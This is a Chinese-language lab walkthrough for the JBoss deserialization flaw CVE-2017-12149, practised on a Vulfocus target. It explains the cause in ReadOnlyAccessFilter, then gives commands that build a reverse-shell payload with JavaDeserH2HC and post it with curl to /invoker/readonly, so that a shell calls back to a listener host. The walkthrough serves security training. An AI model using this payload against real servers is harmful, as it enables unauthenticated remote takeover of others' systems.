









# Jboss命令执行漏洞（CVE-2017-12149）by [wuli888](https://github.com/wuli888)

## 一、漏洞描述

近期，互联网爆出JBOSSApplication Server反序列化命令执行漏洞(CVE-2017-12149)，远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。漏洞细节和验证代码已公开，近期被不法分子利用出现大规模攻击尝试的可能性较大。漏洞危害程度为高危(High)。

## 二、影响版本

漏洞影响5.x和6.x版本的JBOSSAS

## 三、漏洞原理<

JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用，2006年，JBoss被Redhat公司收购。2017年8月30日，厂商Redhat发布了一个JBOSSAS 5.x 的反序列化远程代码执行漏洞通告。该漏洞位于JBoss的HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，其doFilter方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码。但近期有安全研究者发现JBOSSAS 6.x也受该漏洞影响，攻击者利用该漏洞无需用户验证在系统上执行任意命令，获得服务器的控制权。

## 四、利用流程

1、启动Vulfocus

2、访问靶场页面

3、访问可能存在漏洞的页面     http://10.10.11.20:43209/invoker/readonly

4、使用kali拉取利用工具

`git clone https://github.com/joaomatosf/JavaDeserH2HC`

5、在Kali中下载执行生成二进制的payload文件

`javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

6、修改接受shell的主机IP和端口

`java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 10.10.11.244:8989`

7、进行监听

8、向服务器发送攻击Payload

`curl http://10.10.11.20:43209/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`

9、获取flag

